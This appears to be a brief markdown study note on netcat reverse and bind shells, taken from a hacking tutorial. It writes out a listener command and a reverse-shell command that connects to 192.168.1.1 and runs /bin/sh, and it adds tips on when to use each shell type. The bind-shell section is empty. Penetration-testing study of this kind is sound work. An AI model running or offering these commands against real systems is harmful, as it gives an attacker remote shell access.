

#  Exploitation Basics

Source: https://www.hackingtitorials.org/networking/hacking-netcat-part-2-bind-reverse-shells/

## **Netcat Reverse Shells** - a victim connect to the attacker




- All we do is to listen via

```
nc -lvp 4444
```

- The target connect to us and establish a shell

```
nc 192.168.1.1 4444 -e /bin/sh
```

Example:


## **Netcat Bind Shells** - an attacker connects to the victim


============================================================

NOTE: Use reverse shell 95%
Bind shell usually in external assessment
Bypass firewall just listen instead in port forward in FW